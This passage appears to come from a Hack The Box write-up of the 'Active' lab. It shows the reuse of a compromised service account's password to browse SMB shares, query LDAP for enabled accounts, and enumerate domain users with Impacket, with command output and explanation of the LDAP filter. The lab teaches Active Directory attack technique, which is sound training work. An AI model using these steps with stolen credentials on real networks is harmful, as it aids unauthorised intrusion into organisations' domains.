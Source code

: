 ```
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users
Try "help" to get a list of possible commands.
smb: \> ls
 . DR 0 Sat Jul 21 15:39:20 2018
 .. DR 0 Sat Jul 21 15:39:20 2018
 Administrator D 0 Mon Jul 16 11:14:21 2018
 All Users DHSrn 0 Tue Jul 14 06:06:44 2009
 Default DHR 0 Tue Jul 14 07:38:21 2009
 Default User DHSrn 0 Tue Jul 14 06:06:44 2009
 desktop.ini AHS 174 Tue Jul 14 05:57:55 2009
 Public DR 0 Tue Jul 14 05:57:55 2009
 SVC_TGS D 0 Sat Jul 21 16:16:32 2018
 5217023 blocks of size 4096. 284105 blocks available
smb: \> cd SVC_TGS/Desktop
```

ldapsearch can now be used to query the Domain Controller for Active Directory UserAccountControl
attributes of active accounts, and for other specific configurations that might be applied to them. A number
of UserAccountControl attributes also have security relevance. The Microsoft page below lists the possible
UserAccountControl values.

The value of 2 corresponds to a disabled account status, and so the query below will return active users (by
SAMAccountName / username) in the active.htb domain.

```
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b
"dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!
(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName
sAMAccountName: Administrator
sAMAccountName: SVC_TGS
```

- -s sub : The -s option specifies the search scope. sub means a subtree search, including the
base DN and all its child entries. This is the most comprehensive search scope, as it traverses the
entire directory tree below the base DN.

- (&(objectCategory=person)(objectClass=user)(!
(useraccountcontrol:1.2.840.113556.1.4.803:=2))) is an LDAP search filter to find all user
objects that are not disabled. Here's the breakdown:
- objectCategory=person : Searches for objects in the category "person".
- objectClass=user : Narrows down to objects with a class of "user"
- !(useraccountcontrol:1.2.840.113556.1.4.803:=2) : Excludes disabled accounts. The
userAccountControl attribute is a bit flag; this part of the filter excludes accounts with the
second bit set (which indicates a disabled account).

We see that other than our compromised account, the Administrator account is active.

Impacket’s GetADUsers.py simplifies the process of enumerating domain user accounts

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
Password: GPPstillStandingStrong2k18
[*] Querying 10.10.10.100 for information about domain.
Name Email PasswordLastSet LastLogon
---------------- -------- ------------------------- -------------------
Administrator 2018-07-18 20:06:40.351723 2023-11-27 09:57:39.876136
Guest <never> <never>
krbtgt 2018-07-18 19:50:36.972031 <never>
SVC_TGS 2018-07-18 21:14:38.402764 2018-07-21 15:01:30.320277
```

